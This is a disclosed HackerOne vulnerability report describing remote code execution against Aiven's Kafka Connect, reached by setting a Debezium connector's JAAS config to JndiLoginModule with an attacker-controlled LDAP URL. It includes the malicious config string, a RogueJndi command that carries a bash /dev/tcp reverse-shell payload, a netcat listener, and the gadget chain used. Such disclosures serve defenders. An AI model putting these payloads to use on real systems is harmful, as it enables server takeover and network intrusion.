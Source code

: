 # Kafka Connect RCE via connector SASL  JAAS JndiLoginModule configuration

## Report Details
- **Report ID**: 1529790
- **URL**: https://hackerone.com/reports/1529790
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-04-04T09:56:31.884Z
- **Disclosed**: 2022-11-08T06:30:19.406Z

## Reporter
- **Username**: jarij
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aiven_ltd

## Vulnerability Information
## Summary:
When configuring the connector via the Aiven API or the Kafka Connect REST API, the attacker can set the `database.history.producer.sasl.jaas.config` connector property for the `io.debezium.connector.mysql.MySqlConnector` connector. This is likely true for other debezium connectors too.  By setting the connector value to `"com.sun.security.auth.module.JndiLoginModule required user.provider.url="ldap://attacker_server" useFirstPass="true" serviceName="x" debug="true" group.provider.url="xxx";"`, the server will connect to the attacker's LDAP server and it deserializes the LDAP response, which the attacker can use to execute java deserialization gadget chains on the kafka connect server.

## Steps To Reproduce:
██████

  1. Login into my VPS:  `ssh ███████`, password: `█████`
  1. Execute `java -jar RogueJndi-1.1.jar --hostname ███ -c "bash -c bash\${IFS}-i\${IFS}>&/dev/tcp/███/4445<&1"`
  1. Execute `nc -nlvp 4445` on another tab
  1. Execute `python3 poc.py` on another table. This poc script launches the exploit against my Aiven kafka connect instance.
  1. Reverse shell connection should now be established


## The gadget chain

The exploit uses `System.setProperty` gadget chain in the scala standard library to enable unsafe deserialization of apache commons collections transformers (finding this gadget chain took way too much time...). This payload has been designed for the Scala version 2.13.6. It may fail on other scala versions. Then the script executes the reverse shell setup command using the [CommonsCollections7](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java) payload.

## Impact

Attacker can execute commands on the server and access other resources on the network.

## Attachments
- RogueJndi-1.1.jar
- rogue-jndi-src.zip
